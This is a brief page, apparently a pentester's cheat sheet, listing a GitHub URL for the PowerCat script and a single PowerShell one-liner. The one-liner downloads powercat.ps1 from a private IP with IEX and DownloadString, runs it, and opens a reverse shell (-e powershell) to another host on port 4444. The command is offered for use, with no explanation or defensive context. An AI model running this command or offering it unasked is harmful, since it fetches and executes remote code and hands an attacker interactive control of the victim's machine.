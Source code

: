 # Cybersecurity Tools and Files

PowerCat

```
https://raw.githubusercontent.com/voidascent/sec/main/powercat.ps1
```

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1');powercat -c 192.168.119.2 -p 4444 -e powershell
```

